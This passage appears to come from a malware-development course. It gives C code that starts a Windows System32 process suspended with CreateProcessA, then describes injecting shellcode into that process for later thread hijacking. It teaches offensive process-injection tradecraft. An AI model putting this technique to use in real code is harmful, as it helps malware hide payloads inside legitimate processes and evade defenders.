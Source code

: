 ```c

	// Setting the size of the structure
	Si.cb = sizeof(STARTUPINFO);

	// Getting the value of the %WINDIR% environment variable
	if (!GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH)) {
		printf("[!] GetEnvironmentVariableA Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Creating the full target process path 
	sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);
	printf("\n\t[i] Running : \"%s\" ... ", lpPath);

	if (!CreateProcessA(
		NULL,					// No module name (use command line)
		lpPath,					// Command line
		NULL,					// Process handle not inheritable
		NULL,					// Thread handle not inheritable
		FALSE,					// Set handle inheritance to FALSE
		CREATE_SUSPENDED,		// Creation flag
		NULL,					// Use parent's environment block
		NULL,					// Use parent's starting directory 
		&Si,					// Pointer to STARTUPINFO structure
		&Pi)) {					// Pointer to PROCESS_INFORMATION structure

		printf("[!] CreateProcessA Failed with Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("[+] DONE \n");

	// Populating the OUT parameters with CreateProcessA's output
	*dwProcessId    = Pi.dwProcessId;
	*hProcess       = Pi.hProcess;
	*hThread        = Pi.hThread;
	
	// Doing a check to verify we got everything we need
	if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL)
		return TRUE;

	return FALSE;
}
```

### Injecting Remote Process Function

The next step after creating the target process is to inject the payload using the `InjectShellcodeToRemoteProcess` function from the _Process Injection - Shellcode_ beginner module. The payload is only written to the remote process without being executed. The base address is then stored for later use via thread hijacking.
